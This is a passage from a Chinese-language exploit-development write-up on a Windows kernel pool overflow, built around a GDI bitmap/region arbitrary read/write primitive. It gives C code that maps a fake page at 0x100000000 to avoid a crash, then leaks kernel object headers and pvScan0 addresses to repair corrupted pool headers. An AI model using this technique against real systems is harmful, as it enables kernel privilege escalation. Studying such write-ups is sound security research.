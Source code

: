 但是这里又出现问题了，如果直接添加 GetBitmapBits 代码运行会发生 crash，原因时 hdev
被覆盖成 0x1 了，正常情况下它的值为一个 Gdev device object 的指针或者为 NULL，
而 crash 发生的函数 `PDEVOBJ::bAllowShareAccess` 会从被覆盖的地址 `0x0000000100000000`
读取值，然后判断这个值如果为 1 的话就正常返回。

![]({{site.baseurl}}/images/2018-10-17/bAllowShared.png)

幸运的是这个地址可以在用户态直接申请分配，那么用 VirtualAlloc 申请这个地址把值设置成 1 就解决了问题。

```c
VOID *fake = VirtualAlloc(0x0000000100000000, 0x100, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
memset(fake, 0x1, 0x100);
```

现在我们已经能够读写一大块内存了，下一步就可以任意地址读写了，不过我们还需要修复一下堆头结构，
前面我们写的 poc 程序每次运行完退出时会因为 Bad Pool Header 触发 crash，溢出破坏了堆头部结构。
先用 GetBitmapbits 读取下一页的 region 对象和 bitmap 对象的头部，写入到当前页的 region 对象和
bitmap 对象头部中，然后泄露相关内核地址，计算出当前页的 region 对象地址。

```c
// Get Gh04 header to fix overflown header.
static BYTE Gh04[0x10];
fprintf(stdout, "\r\nGh04 header:\r\n");
for (int i = 0; i < 0x10; i++) {
    Gh04[i] = bits[0x1d8 + i];
    fprintf(stdout, "%02x", bits[0x1d8 + i]);
}
// Get Gh05 header to fix overflown header.
static BYTE Gh05[0x10];
fprintf(stdout, "\r\nGh05 header:\r\n");
for (int i = 0; i < 0x10; i++) {
    Gh05[i] = bits[0xd98 + i];
    fprintf(stdout, "%02x", bits[0xd98 + i]);
}
// Address of Overflown Gh04 object header
static BYTE addr1[0x8];
fprintf(stdout, "\r\nPrevious page Gh04 (Leaked address):\r\n");
for (int j = 0; j < 0x8; j++) {
    addr1[j] = bits[0x218 + j];
    fprintf(stdout, "%02x", bits[0x218 + j]);
}
// Get pvScan0 address of second Gh05 object
static BYTE pvscan[0x08];
fprintf(stdout, "\r\npvScan0:\r\n");
for (int i = 0; i < 0x8; i++) {
    pvscan[i] = bits[0xdf8 + i];
    fprintf(stdout, "%02x", bits[0xdf8 + i]);
}
```

看下当前 bitmap 对象的 pvScan0 指向的地址：

![]({{site.baseurl}}/images/2018-10-17/offset7.png)
